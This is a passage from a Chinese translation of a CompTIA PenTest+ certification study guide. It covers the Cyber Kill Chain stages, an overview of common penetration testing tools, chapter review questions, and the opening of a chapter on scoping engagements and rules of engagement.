

FIGURE 1.5 Cyber Kill Chain in the context of the CompTIA model

安全事件遵循类似的模式，渗透测试人员必须意识到导致网络安全故障的一系列事件。网络杀伤链很好地说明了这一点，显示了在成功入侵之前必须发生的许多故障阶段。

## 侦察


侦察阶段（Reconnaissance phase）的 Cyber Kill Chain 直接对应渗透测试过程中的信息收集和漏洞扫描阶段。在此期间，攻击者收集开源情报并对目标环境进行初始扫描，以检测潜在的利用途径。

### 武器化

完成攻击的侦察阶段后，攻击者进入剩余的六个步骤，这些步骤扩展了渗透测试过程中的攻击和利用阶段。

其中第一个阶段是武器化。在此期间，攻击者开发专门设计用于利用侦察期间识别的漏洞的攻击工具。他们通常使用自动化工具包开发专门针对渗透目标的恶意软件变种。

### 交付

开发和测试恶意软件武器后，攻击者接下来必须将该恶意软件交付给目标。交付可能通过多种方式进行，包括利用网络或应用程序漏洞、实施社会工程攻击、在受感染的 USB 驱动器或其他介质上分发恶意软件，或将其作为电子邮件附件或通过其他方式发送。

### 利用

一旦恶意软件被交付给目标组织，攻击者或受害者采取一些行动触发恶意软件的有效载荷，从而开始 Cyber Kill Chain 的利用阶段。在此期间，恶意软件获得对目标系统的访问权限。这可能发生在受害者打开恶意文件时，或当攻击者通过网络利用漏洞或以其他方式在目标网络上立足时。

### 安装

初始恶意软件安装仅旨在启用对目标系统的临时访问。在 Cyber Kill Chain 的下一个阶段，即安装阶段，攻击者使用恶意软件提供的初始访问权限，在目标系统上建立永久或持久访问权限。出于这个原因，许多人将该阶段的目标描述为在目标环境中建立持久性。攻击者可以通过创建后门（允许他们在以后日期返回系统）、创建注册表项（在管理员关闭访问权限后重新打开访问权限）或安装 Web Shell（允许他们通过标准 HTTPS 连接访问系统）来建立持久性。

### 命令和控制

在对目标系统和网络建立持久访问权限后，攻击者随后可能使用远程 Shell 或其他手段远程控制受损系统。攻击者可以使用 Shell 手动控制系统，也可以将其连接到自动化命令和控制（C2C）网络，该网络为其提供指令。这种自动化方法在分布式拒绝服务（DDoS）攻击中很常见，攻击者同时指导数千个受损系统（称为僵尸网络）的行动。

### 目标行动

在建立 C2C 机制后，攻击者随后可以使用系统来推进其攻击的原始目标。这可能涉及从受损系统转向同一组织运营的其他系统，实际上重新启动 Cyber Kill Chain。

攻击的目标行动阶段还可能包括窃取敏感信息、未经授权使用计算资源进行拒绝服务攻击或挖掘加密货币，或未经授权修改或删除信息。

## 行业工具

渗透测试人员在进行测试时使用各种各样的工具。为每次评估选择的具体工具将取决于测试人员的背景、目标环境的性质、交战规则等许多因素。

PenTest+ 考试要求考生了解各种工具的用途。事实上，官方考试目标包括超过 50 种工具的列表，你需要在参加考试之前了解这些工具。虽然你需要熟悉这些工具，但不必成为其使用方面的专家。这些工具的官方考试目标指出，你必须能够“在渗透测试阶段解释以下工具的用例”。它接着指出，“此目标的意图不是测试特定供应商功能集。”

这份指导可能会让考生感到沮丧和困惑。在准备考试时，你当然应该了解每个工具的用途。表 1.1 提供了工具摘要，按考试目标中使用的类别进行分类。你应该能够用连贯的句子描述每个工具的用途。

此外，考试目标包括一系列用例。你应该能够阅读涵盖其中一个用例的场景，然后命名满足每个目标的适当工具。这些用例包括以下主题：

*   侦察

*   枚举

*   漏洞扫描

*   凭据攻击（离线密码破解和暴力破解服务）

*   持久性

*   配置合规性

*   规避

*   反编译

*   取证

*   调试

*   软件保证

表 1.1 Penetration testing tools covered by the PenTest+ exam

| 

*   **扫描器**  

    *   Nikto

    *   Open vulnerability assessment

    *   scanner (OpenVAS)

    *   SQLmap

    *   Nessus

    *   Open Security Content Automation Protocol (SCAP)

    *   Wapiti

    *   WPScan

    *   Brakeman

    *   Scout Suite

*   **OSINT**  

    *   WHOIS

    *   Nslookup

    *   Fingerprinting Organization

    *   with Collected Archives (FOCA)

    *   theHarvester

    *   Shodan

    *   Maltego

    *   Recon‐ng

    *   Censys

*   **远程访问工具**  

    *   Secure Shell (SSH)

    *   Ncat

    *   Netcat

    *   ProxyChains

*   **凭据测试工具**  

    *   Hashcat

    *   Medusa

    *   Hydra

    *   CeWL

    *   John the Ripper

    *   Cain

    *   Mimikatz

    *   Patator

    *   DirBuster

    *   W3AF

*   **无线**  

    *   Aircrack‐ng suite

    *   Kismet

    *   WiFite

    *   Rogue access point

    *   EAPHammer

    *   mdk4

    *   Spooftooph

    *   Reaver

    *   Wireless Geographic Logging Engine (WiGLE)

    *   Fern

*   **网络工具**  

    *   Wireshark

    *   Hping

*   **调试器**  

    *   OllyDbg

    *   Immunity Debugger

    *   Gnu Debugger (GDB)

    *   WinDbg

    *   Interactive Disassembler (IDA)

    *   Covenant

    *   SearchSploit

*   **Web 应用程序工具**  

    *   OWASP ZAP

    *   Burp Suite

    *   Gobuster

*   **社会工程工具**  

    *   Social Engineering Toolkit (SET)

    *   BeEF

*   **杂项工具**  

    *   SearchSploit

    *   PowerSploit

    *   Responder

    *   Impacket tools

    *   Empire

    *   Metasploit

    *   Mitm6

    *   CrackMapExec

    *   TruffleHog

*   **隐写术工具**  

    *   Open steg

    *   Steghide

    *   Snow

    *   Coagula

    *   Sonic Visualiser

    *   TinEye

    *   Metagoofil

    *   Online SSL checkers

*   **云工具**  

    *   Scout Suite

    *   CloudBrute

    *   Pacu

    *   Cloud Custodian

 |

| --- |

在本章余下部分，你将非常高级地了解其中一些工具。随着我们继续阅读本书的其余部分，我们将重新回顾每个工具和用例。你将在以下部分找到参考，帮助你在书后面找到每个工具的更详细解释。

随着你继续考试准备，你会希望将 表 1.1 作为参考。它也是考试前一晚使用的绝佳复习表。


现在，让我们在渗透测试流程的背景下简要讨论这些工具。我们将在此稍微偏离 CompTIA 的分类，以便将这些信息置于最容易让你理解的上下文中。请记住，这只是一个概述，我们将在本书后面再次详细介绍每个工具。

## 侦察

在渗透测试的信息收集和漏洞扫描阶段，测试团队会花费大量时间收集信息。这些信息大多是使用开源情报（OSINT）工具和技术收集的，这些工具和技术会搜集公开可用的信息，以寻找在渗透测试中可能有用的组织和技术细节。

各种工具可协助 OSINT 收集：

* `WHOIS` 工具从公共记录中收集有关域名所有权的信息。

* `Nslookup` 工具帮助识别与组织关联的 IP 地址。

* `theHarvester` 搜索引擎和其他资源，以查找有关组织的电子邮件地址、员工姓名和基础设施详细信息。

* `Recon‐ng` 是一个模块化的 Web 侦察框架，用于组织和管理 OSINT 工作。

* `Censys` 是一个基于 Web 的工具，用于探测互联网上的 IP 地址，然后通过搜索引擎为渗透测试人员提供访问这些信息的权限。

* `FOCA`（Fingerprinting Organizations with Collected Archives）是一个开源工具，用于在 Office 文档、PDF 和其他常见文件格式中查找元数据。

* `Shodan` 是一个专门的搜索引擎，用于从公开来源发现易受攻击的物联网（IoT）设备。

* `Maltego` 是一个商业产品，用于协助可视化从 OSINT 工作中收集的数据。

除了这些 OSINT 工具之外，渗透测试人员还必须熟悉 `Nmap` 网络扫描工具。`Nmap` 是最广泛使用的网络端口扫描器，几乎是每个网络安全专业人员工具包的一部分。

你将在 第 3 章，“信息收集”中找到所有这些工具的介绍。

## 漏洞扫描器

漏洞扫描器在渗透测试的信息收集阶段也发挥着重要作用。一旦测试人员识别出潜在目标，他们可能会使用漏洞扫描器来探测这些目标，寻找在测试后续阶段可能被利用的弱点。

你需要熟悉这些漏洞扫描工具以应对考试：

* `Nessus` 是一个商业漏洞扫描工具，用于扫描各种设备。

* `OpenVAS` 是商业工具（如 `Nessus`）的开源替代方案。`OpenVAS` 还执行网络漏洞扫描。

* `Sqlmap` 是一个开源工具，用于自动化针对具有数据库后端的 Web 应用程序的 SQL 注入攻击。

* `Nikto`、`Wapiti` 和 `W3AF` 是开源 Web 应用程序漏洞扫描器。`WPScan` 是一个专为运行 WordPress 内容管理系统的网站设计的 Web 应用程序测试工具。

* `Security Content Automation Protocol (SCAP)` 是一组工具，旨在帮助组织管理对安全标准的合规性。

你将在 第 4 章，“漏洞扫描”和 第 5 章，“分析漏洞扫描”中了解这些工具的更多信息。

## 社会工程

社会工程在许多攻击中发挥着重要作用。当渗透测试人员进入攻击和利用阶段时，他们通常会从社会工程攻击开始，以收集凭据。

PenTest+ 考试涵盖了社会工程师使用的两个工具包：

* `Social Engineer Toolkit (SET)` 提供了一个框架，用于自动化社会工程过程，包括发送鱼叉式网络钓鱼消息、托管虚假网站和收集凭据。

* 同样，`Browser Exploitation Framework`（`BeEF`）提供了一个自动化工具包，用于利用社会工程接管受害者的 Web 浏览器。

这两个工具将在 第 8 章，“利用物理和社会漏洞”中更详细地介绍。

## 凭据测试工具

如果攻击者无法通过社会工程技术获取凭据，他们可能能够使用工具对哈希密码进行逆向工程。

PenTest+ 考试涵盖了一大套旨在协助这些活动的工具：

* `Hashcat`、`John the Ripper`、`Hydra`、`Medusa`、`Patator` 和 `Cain` 是密码破解工具，用于对存储在文件中的哈希密码进行逆向工程。

* `CeWL` 是一个自定义字典生成器，它搜索网站以查找可能用于密码猜测攻击的关键字。

* `Mimikatz` 从 Windows 系统的内存中检索敏感凭据信息。

* `DirBuster` 是一个暴力破解工具，用于枚举 Web 服务器上的文件和目录。

我们将在 第 10 章，“攻击主机、云技术和专用系统”中更详细地介绍所有这些工具。

## 调试器和软件测试工具

调试工具提供对软件的洞察，并协助逆向工程活动。准备考试的渗透测试人员应熟悉这些调试工具：

* `Immunity Debugger` 专门设计用于支持渗透测试和恶意软件的逆向工程。

* `GDB` 是一个广泛使用的开源 Linux 调试器，可与多种编程语言配合使用。

* `OllyDbg` 是一个 Windows 调试器，在汇编语言级别处理二进制代码。

* `WinDbg` 是由 Microsoft 创建的另一个 Windows 特定调试工具。

* `IDA` 是一个商业调试工具，适用于 Windows、Mac 和 Linux 平台。

* `Brakeman` 是一个静态软件分析工具，用于扫描 Ruby on Rails 应用程序。

* `Covenant` 是一个软件安全测试工具，用于测试 .NET 应用程序。

* `TruffleHog` 是一个扫描代码仓库以查找意外发布的秘密的工具。

我们将在 第 9 章，“利用应用程序漏洞”中详细介绍这些工具。

## 网络测试

除了利用软件漏洞之外，渗透测试人员在寻求访问系统时，还经常利用网络中的缺陷。PenTest+ 考试涵盖的网络测试工具包括：

* `Wireshark` 是一个协议分析器，允许渗透测试人员窃听并解析网络流量。

* `Hping` 是一个命令行工具，允许测试人员人为生成网络流量。

* `Aircrack‐ng`、`WiFite`、`mdk4`、`Fern` 和 `Kismet` 是无线网络安全测试工具。

* `Rogue wireless access points` 用于吸引毫无戒心的用户的连接。

* `EAPHammer` 用于针对 WPA2‐Enterprise 无线网络进行邪恶双胞胎攻击。

* `Reaver` 用于针对支持 Wi‐Fi Protected Setup (WPS) 的网络进行攻击。

* `Spooftooph` 用于针对启用 Bluetooth 的设备进行攻击。

* `Wireless Geographic Logging Engine (WiGLE)` 是社区收集并发布供公开访问的无线网络信息的开放数据库。

* `Online SSL checkers` 用于确定网站是否易受 SSL 和/或 TLS 漏洞的影响。

你将在 第 7 章，“利用网络漏洞”中了解每个工具的更多信息。

# 远程访问

在获得对网络的初始访问权限后，渗透测试人员寻求建立持久性，以便他们可以继续访问系统。以下是用于协助完成此任务的一些工具：

* `Secure Shell (SSH)` 在系统之间提供安全的加密连接。

* `Ncat` 和 `Netcat` 提供了一种通过网络连接读取和写入数据的简便方法。


##### Exploitation

随着攻击者在网络中横向移动，他们会使用各种漏洞利用来攻破新系统，并提升在已攻破系统上的权限。漏洞利用工具包使这一过程变得简单且自动化。对于考试，你应该熟悉以下漏洞利用工具：

* `Metasploit` 是迄今为止最流行的漏洞利用框架，支持数千个涵盖不同漏洞的插件。

* `SearchSploit` 是一个命令行工具，允许你搜索已知漏洞数据库。

* `PowerSploit` 和 `Empire` 是以 Windows 为中心的 PowerShell 脚本集，可用于自动化渗透测试任务。

* `Responder` 是一个用于响应网络中 Windows 系统 NetBIOS 查询的工具包。

* `Impacket` 是一组网络工具，可提供对网络协议的低级访问。

* `Mitm6` 是一个用于针对 IPv6 网络进行攻击的工具。

* `CrackMapExec` 是一组在获得网络访问权限后用于评估 Active Directory 环境安全性的工具。

你将在 第 6 章，“利用与横向移动”中了解每个工具的更多信息。

# Steganography

隐写术是将信息隐藏在显而易见之处的艺术，通常隐藏在图像文件或其他大型二进制文件中。对于 PenTest+ 考试，你应该熟悉以下隐写工具：

* `Open Steg` 和 `Steghide` 是通用隐写工具，用于在图像和其他二进制文件中隐藏文本。

* `Coagula` 用于在音频文件中嵌入文本。`Sonic Visualiser` 是一个音频分析工具，可用于检测隐写工具所做的修改。

* `Snow` 使用文档中的空格和制表符来隐藏信息。

* `TinEye` 是一个反向图像搜索工具，允许安全研究人员在怀疑使用隐写术时识别原始图像。

* `Metagoofil` 用于从大量文件类型中提取元数据。

你将在 第 9 章 中了解每个工具的更多信息。

# Cloud Tools

随着组织将业务迁移到云端，安全团队需要新的工具来评估这些云服务的安全性。对于 PenTest+ 考试，你应该熟悉以下云安全工具：

* `ScoutSuite` 是一个云安全审计工具，可在常用的云环境中工作。

* `CloudBrute` 是一个扫描仪，用于识别组织使用的云组件。

* `Pacu` 是一个专注于 Amazon Web Services (AWS) 托管环境的云漏洞利用框架。

* `Cloud Custodian` 是一个规则执行引擎，允许在云环境中一致地应用安全策略。

你将在 第 10 章，“攻击主机、云技术和专用系统”中了解每个工具的更多信息。

# Summary

渗透测试是一项重要的实践，它允许网络安全专业人员通过采用黑客思维来评估环境的安全性。通过像攻击者一样思考，测试人员能够识别组织安全基础设施中的弱点以及可能导致未来安全漏洞的潜在缺口。

CompTIA 渗透测试流程包括四个阶段：规划与范围界定、信息收集与漏洞扫描、攻击与利用、以及报告与沟通。渗透测试人员遵循每个阶段，以确保他们有一个设计良好的测试，并按照商定的交互规则运行。

渗透测试人员使用各种工具来辅助工作。这些工具与网络安全专业人员、黑客、网络工程师、系统管理员和软件开发人员使用的许多工具相同。工具辅助渗透测试流程的所有阶段，尤其是信息收集、漏洞识别以及攻击过程中的漏洞利用。

## Exam Essentials

**了解 CIA 和 DAD 三元组如何描述网络安全专业人员和攻击者的目标。** 网络安全专业人员致力于保护信息和系统的机密性、完整性和可用性。攻击者试图通过实现破坏、篡改和拒绝服务的目标来破坏这些目标。

**能够列举渗透测试的几个重要好处。** 渗透测试提供了无法从其他地方获得的组织安全态势知识。它还为安全问题的修复提供了蓝图。最后，渗透测试提供了针对特定攻击目标的聚焦信息。

**了解渗透测试可能是为了满足合规性要求而进行的。** 支付卡行业数据安全标准 (PCI DSS) 要求参与信用卡交易处理的组织每年进行内部和外部渗透测试。

**描述内部团队和外部团队如何进行渗透测试。** 内部团队拥有环境内部知识的优势。它们的运行成本也比外部团队更具成本效益。外部渗透测试人员拥有与设计和实施安全控制的团队在组织上独立的优势。

**了解渗透测试流程的四个阶段。** 渗透测试人员从规划与范围界定阶段开始，在此阶段他们制定工作说明书并与客户就交互规则达成一致。然后他们进入信息收集与漏洞扫描阶段的侦察工作。收集到的信息随后用于在攻击与利用阶段进行攻击。在最后阶段，报告与沟通结果中，团队将其调查结果与目标组织共享。

**描述渗透测试人员使用的工具。** 为网络安全专业人员和其他技术人员设计的工具也可以帮助渗透测试人员收集信息和进行攻击。渗透测试人员使用专门的漏洞利用框架，例如 `Metasploit`，来帮助自动化他们的工作。

## Lab Exercises

## Activity 1.1: Adopting the Hacker Mindset

在深入本书中众多技术示例之前，让我们尝试将黑客思维应用于日常生活的一个示例。

想想你通常购物的杂货店。该商店使用哪些安全措施来防止现金和商品被盗？你能想到哪些方法来击败这些控制措施？

## Activity 1.2: Using the Cyber Kill Chain

从最近的新闻中选择一个真实世界的网络安全事件示例。选择一个公开可用的技术细节较为充分的示例。

根据网络杀伤链描述这次攻击。攻击者是如何执行过程中的每个步骤的？是否跳过了任何步骤？如果没有足够的信息来明确处理网络杀伤链的某个要素，请提供关于可能发生的情况的一些假设。

## Review Questions

你可以在附录中找到答案。

1. Tom 正在对 Web 应用程序进行渗透测试，并发现一个允许他远程关闭 Web 服务器的缺陷。Tom 最直接实现了渗透测试的哪个目标？

   1. 披露

   2. 完整性

   3. 篡改

   4. 拒绝服务


2. Brian 对学校的评分系统进行了渗透测试，并发现一个缺陷，该缺陷将允许学生通过利用 SQL 注入漏洞来更改他们的成绩。他应该向学校的网络安全团队推荐哪种控制措施，以防止学生从事此类活动？

1. 机密性
2. 完整性
3. 篡改
4. 可用性

3. Edward Snowden 从国家安全局收集了大量敏感信息，并未经许可将其发布给媒体。他发动了哪种类型的攻击？

1. 泄露
2. 拒绝
3. 篡改
4. 可用性

4. 假设组织持卡人数据环境没有重大变化，PCI DSS 要求接受信用卡的商家多久进行一次渗透测试？

1. 每月
2. 每半年
3. 每年
4. 每两年

5. 以下哪一项不是使用内部渗透测试团队的好处？

1. 上下文知识
2. 成本
3. 学科专业知识
4. 独立性

6. 以下哪一项不是对系统和应用程序进行定期渗透测试的原因？

1. 环境变化
2. 成本
3. 威胁演变
4. 新团队成员

7. Rich 最近因为在渗透测试中使用攻击工具导致系统宕机而与客户发生麻烦。Rich 和他的客户应该在渗透测试过程的哪个阶段同意他将在测试中使用的工具和技术？

1. 规划与范围界定
2. 信息收集与漏洞扫描
3. 攻击与利用
4. 报告与结果沟通

8. 以下哪一项网络杀伤链步骤不属于渗透测试过程中的攻击与利用阶段？

1. 武器化
2. 侦察
3. 安装
4. 目标行动

9. Beth 最近针对渗透测试目标进行了网络钓鱼攻击，试图收集她可能在后续攻击中使用的凭据。Beth 处于渗透测试过程的哪个阶段？

1. 规划与范围界定
2. 攻击与利用
3. 信息收集与漏洞扫描
4. 报告与沟通

10. 以下哪一项安全评估工具不常用于渗透测试的信息收集与漏洞扫描阶段？

1. Nmap
2. Nessus
3. Metasploit
4. Nslookup

11. 攻击者在网络杀伤链的哪个阶段会窃取信息、使用计算资源或未经许可更改信息？

1. 武器化
2. 安装
3. 目标行动
4. 命令与控制

12. Grace 正在调查一起安全事件，攻击者在办公楼停车场留下了包含感染文件的 USB 驱动器。网络杀伤链的哪个阶段描述了此操作？

1. 武器化
2. 安装
3. 投递
4. 命令与控制

13. 以下哪一项不是开源情报收集工具？

1. WHOIS
2. Nslookup
3. Nessus
4. FOCA

14. 以下哪一项工具是渗透测试人员常用的利用框架？

1. Metasploit
2. Wireshark
3. Aircrack‐ng
4. SET

15. 以下哪一项工具不是密码破解实用程序？

1. OWASP ZAP
2. Cain and Abel
3. Hashcat
4. Jack the Ripper

16. 以下哪一项漏洞扫描器专门用于测试 Web 应用程序抵御各种攻击的安全性？

1. OpenVAS
2. Nessus
3. SQLmap
4. Nikto

17. 以下哪一项调试工具不支持 Windows 系统？

1. GDB
2. OllyDbg
3. WinDbg
4. IDA

18. 网络杀伤链的最终阶段是什么？

1. 武器化
2. 安装
3. 目标行动
4. 命令与控制

19. 以下哪一项活动假设组织已经被攻破？

1. 渗透测试
2. 威胁搜寻
3. 漏洞扫描
4. 软件测试

20. Alan 正在制定一份建议清单，他的组织可以遵循该清单来修复渗透测试中发现的问题。Alan 在测试过程的哪个阶段参与？

1. 规划与范围界定
2. 报告与沟通
3. 攻击与利用
4. 信息收集与漏洞扫描

WileyPRE

# 第 2 章

规划与范围界定渗透测试

CompTIA PenTest+ 认证考试目标中的规划与范围界定领域涉及准备、规划和界定渗透测试。在本章中，您将探索监管和合规性考虑因素、与地点相关的限制、法律协议和合同以及许可的重要性。您还将了解一些最常见的标准和方法论、交战规则以及关于将要运行的环境的考虑因素，以及如何验证目标列表和接触范围。

## 规划与界定接触

大多数渗透测试接触的第一步是确定应该测试什么，即评估范围。范围决定了渗透测试人员将做什么以及如何花费他们的时间。

确定范围需要与将进行渗透测试的人员或组织合作。测试人员需要了解以下所有内容：进行测试的原因；是否有特定要求（如合规性或业务需求）驱动测试；应测试哪些系统、网络或服务以及何时测试；测试期间可以和不可以访问哪些信息；测试的交战规则是什么；允许或禁止哪些技术；以及最终报告将提交给谁。

### 评估类型

对评估进行分类和描述的方法有很多，但拥有一些广泛的类别来对其进行分类会很有帮助。在考虑评估类型时，您可能会发现将它们分为以下类别很有用：

* 基于目标或基于目的的评估是为特定原因进行的。示例包括验证新的安全设计、在应用程序或服务基础架构投入生产前进行测试，以及评估最近被收购的组织的安全性。

* 基于合规性的评估是围绕法律、标准或其他指导的合规性目标设计的，可能需要聘请经过认证的特定提供商或评估人员来执行评估。

* 红队评估通常比普通渗透测试更具针对性。红队试图像攻击者一样行动，以获取数据和访问权限为目标，针对敏感数据或系统。与其他类型的渗透测试不同，红队评估不旨在提供目标的所有安全缺陷的详细信息。这意味着红队评估不太可能提供环境中缺陷的完整视图，但它们可以作为安全练习非常有用，用于培训事件响应人员或帮助验证安全设计和实践。

### 已知环境和未知环境

一旦确定了评估类型，关于渗透测试首先要决定的事情之一是测试人员将对环境了解多少。以下是用于描述这一点的三种典型分类：


# 已知环境测试

已知环境测试，有时也称为“白盒”、“晶体盒”（即你可以看到内部一切）或“全知识”测试，是在完全了解构成目标的底层技术、配置和设置的情况下进行的。测试人员通常会拥有网络图、系统和 IP 网络范围列表，甚至包括他们正在测试的系统的凭据等信息。已知环境测试允许在不需要测试人员花费时间识别目标并确定哪些目标可能允许进入的情况下，对系统进行有效测试。这意味着已知环境测试通常更加全面，因为测试人员可以访问范围内的每个系统、服务或其他目标，并拥有凭据和其他材料，使他们能够进行测试。当然，由于测试人员可以看到环境内的一切，他们可能无法提供外部攻击者所看到的准确视图，而对大多数攻击者有效的控制措施可能会被绕过。

# 未知环境测试

未知环境测试，有时也称为“黑盒”或“零知识”测试，旨在复制攻击者所遇到的情况。测试人员不会获得对环境的访问权限或相关信息，相反，他们必须像攻击者一样收集信息、发现漏洞，并穿过基础设施或系统。这对渗透测试人员来说可能很耗时，但它可以更好地揭示从零开始的人可能会利用哪些漏洞。它还可以帮助合理准确地评估目标对同等或较低技能水平攻击者的安全性。需要注意的是，在进行未知环境渗透测试时，渗透测试人员或团队的质量和技能集非常重要——如果你预期会针对你组织的威胁行为者能力更强，黑盒测试人员无法为你提供他们可能采取行动的现实视图。

# 部分知识测试

部分知识（有时称为灰盒）测试是未知环境测试和已知环境测试的结合。部分知识测试可能会向渗透测试人员提供一些环境信息，但不会提供完全访问权限、凭据或配置详细信息。部分知识测试可以帮助集中渗透测试人员的时间和精力，同时也能更准确地了解攻击者实际上会遇到什么。

# 交互规则

一旦确定了评估类型以及测试人员将对目标拥有的知识水平，其余的 `rules of engagement (RoE)` 就可以编写。关键要素包括：

* **交互的时间表以及可以进行测试的时间**。这包括一天中的时间，以及在某些情况下由于业务要求而规定的每周或每月的天数。有些评估会故意安排在非关键时间段，以尽量减少潜在服务中断的影响，而有些则可能安排在正常营业时间，以帮助测试组织对攻击的反应。

* **范围内的位置、系统、应用程序或其他潜在目标**。常见目标包括无线网络、特定 IP 范围和域、组织的 `DNS`（域名系统）和域、API、物理位置，以及内部和外部服务和系统。目标列表讨论通常还包括可能受测试影响的第三方服务提供商的讨论，例如互联网服务提供商、软件即服务或其他云服务提供商，或外包的安全监控服务。任何特殊的技术限制也应在 RoE 中讨论。

* **允许或不允许的测试类型**。常见的限制包括限制可能具有破坏性的测试或避免社交工程或物理渗透测试，但每个交互都应根据将要进行交互的组织的需求进行范围界定。

* **渗透测试期间收集的信息的数据处理要求**。当交互涉及敏感的组织数据或系统时，这一点尤为重要。例如，渗透测试不能合法地泄露受保护的健康信息（PHI），即使在 NDA（保密协议）下也是如此。处理要求通常包括对调查结果的保密要求，例如在测试期间和之后加密数据，以及在交互结束后处理渗透测试数据和结果的合同要求。

* **目标预期的行为**。像拒绝、黑名单或其他主动防御等防御行为可能会限制渗透测试的价值。如果测试旨在评估防御，这可能很有用。如果测试旨在测试完整的基础设施，拒绝或阻止渗透测试团队的努力可能会浪费时间和资源。

* **投入测试的资源**。在全知识和部分知识测试场景中，来自测试目标的管理员、开发人员和其他专家的时间投入不仅有用，而且对于有效的测试可能也是必要的。

* **法律问题**。此类问题也应予以解决，包括影响目标组织、渗透测试团队的任何法规问题的概要，`pentest`（渗透测试的缩写）团队，由于地方或国家法律而受到的工具限制，任何远程位置，以及任何将在范围内的服务提供商。

* **通信的时间和方式**。交互是否应包括无论进展如何的每日或每周更新，还是渗透测试人员仅在工作完成时报告？

* **特定事件发生时应联系谁**。这包括正在进行的入侵证据、意外违反 RoE、发现关键漏洞以及其他需要立即关注的事件。

* **谁被允许与渗透测试团队接触**。例如，CFO 是否可以请求更新？在 RoE 中包含此内容有助于避免可能令人尴尬的拒绝。

范围协议和交互规则必须定义的不仅仅是将要测试的内容。事实上，记录测试的限制与记录将包含的内容同样重要。测试协议或范围文档应包含免责声明，说明测试仅在进行测试的时间点有效，并且所选择的范围和方法论可能会影响测试的全面性。毕竟，已知环境渗透测试比对安全性良好的系统进行的未知环境测试更有可能发现设计中深层埋藏的问题！

问题处理和解决是交互规则的另一个关键要素。尽管渗透测试人员和客户始终希望测试能顺利进行且不会造成任何中断，但测试系统和服务，特别是在使用实际攻击和利用工具的生产环境中，可能会导致中断和其他问题。在这些情况下，双方在交互中拥有明确定义的通信、通知和升级路径，可以帮助最大限度地减少目标组织的停机时间和其他问题。渗透测试人员应仔细记录其责任和责任限制，并确保客户知道可能出现的问题，并且双方都同意如何处理。这确保了测试的已知和未知影响都能得到适当处理。

# 范围考虑因素——深入探讨


As you've likely already realized, determining the detailed scope of a test can involve a significant amount of work. Even a small organization may have a complex set of systems, applications, and infrastructure, and determining the scope of a penetration test can be challenging unless the organization has detailed and accurate architecture, dataflow, and system documentation. Of course, if the engagement is an unknown environment test, the detail available to penetration testers may be limited, so they will need to know how to avoid going outside of the intended scope of the test.

Detailed scoping starts by determining the acceptable targets. Are they `first party hosted` (internally) or `third party hosted` (externally), and are they on‐site or off‐site? Are they hosted by the organization itself, by a third party, or by an infrastructure‐as‐a‐service (IaaS) or other service provider? Are they virtual, physical, or a hybrid, and does this impact the assessment? Are there specific environmental restrictions that need to be applied for the network, applications, or cloud systems and services?

Equally important is an understanding of what applications, services, and supporting infrastructure are in scope. It may be desirable or necessary to target elements of infrastructure or systems that are not directly related to the target to access the target. For example, one of the authors of this book targeted the network administration infrastructure for an organization to gain access to the real target of the test he was conducting—a database server that was otherwise too well protected by firewalls. With access to network administration functions, he was able to pivot and get access to unencrypted dataflows between the database and application server that were his real target, as shown in Figure 2.1.

